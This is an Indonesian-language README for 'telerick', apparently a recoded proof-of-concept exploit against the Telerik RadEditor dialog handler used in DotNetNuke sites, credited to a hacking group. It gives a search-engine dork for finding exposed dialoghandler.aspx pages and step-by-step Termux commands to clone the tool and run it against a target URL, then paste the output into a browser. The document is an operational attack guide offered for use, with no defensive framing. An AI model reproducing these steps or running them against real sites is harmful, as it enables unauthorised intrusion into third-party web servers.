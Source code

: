 # telerick


recode by Mr Horden-999-
cara pemakaian 
                     POC TELERICK




Dorking menggunakan dork dibawah:

inurl:/desktopmodules/admin/radeditorprovider/dialoghandler.aspx

Kemudian kalian buka Termux

Lalu install tool ini dengan perintah berikut.

$ apt update && upgrade
$ pkg install git
$ pkg install python2
$ pip2 install requests
$ git clone https://github.com/lambang007/telerick

$ cd telerick
$ python2 igstele.py -exploit http://target.com 48 hex 9

atau contoh kayak di bawah ini;

$ python2 igstele.py -exploit http://Target/desktopmodules/admin/radeditorprovider/dialoghandler.aspx 48 hex 9

kemudian salin hasil dan paste di browser anda atau contoh hasil ada di bawah tinggal kalian copy aja

recode by Mr Horden-999-
thanks my team indo ghost security & the next level 
and all friends..........

